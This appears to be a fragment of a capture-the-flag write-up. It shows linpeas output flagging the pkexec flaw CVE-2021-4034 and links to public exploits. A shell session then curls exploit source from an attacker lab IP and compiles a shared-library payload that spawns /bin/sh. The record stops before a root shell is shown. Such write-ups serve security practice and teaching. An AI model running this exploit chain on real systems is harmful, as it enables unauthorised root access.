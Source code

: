 ```results
Sudo version 1.8.31                                                                                                                                                                                               
                                                                                                                                                                                                                  
Vulnerable to CVE-2021-4034                                                                                                                                                                                       
                                                                                                                                                                                                                  
./linpeas.sh: 1188: [[: not found                                                                                                                                                                                 
./linpeas.sh: 1188: rpm: not found                                                                                                                                                                                
./linpeas.sh: 1188: 0: not found                                                                                                                                                                                  
                                                                                                                                                                                                                  
╔══════════╣ PATH                                                                                                                                                                                                 
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                                                                                                
/usr/bin:/bin                                                                                                                                                                                                     
New path exported: /usr/bin:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin                                                                                                                                   
                                                                               

```d
https://github.com/berdav/CVE-2021-4034
https://www.exploit-db.com/exploits/50689

```rootflag
$ curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   868
$ curl http://10.10.14.231:8000/exploit.c -o exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   555  100   555    0     0   2720      0 --:--:-- --:--:-- --:--:--  2733
$ make
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function ‘gconv_init’:
evil-so.c:10:2: warning: implicit declaration of function ‘setgroups’; did you mean ‘getgroups’? [-Wimplicit-function-declaration]
   10 |  setgroups(0);
      |  ^~~~~~~~~
      |  getgroups
evil-so.c:12:2: warning: null argument where non-null required (argument 2) [-Wnonnull]
   12 |  execve("/bin/sh", NULL, NULL);
      |  ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:26:2: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   26 |  execve(BIN, argv, envp);
      |  ^~~~~~
$ ls
```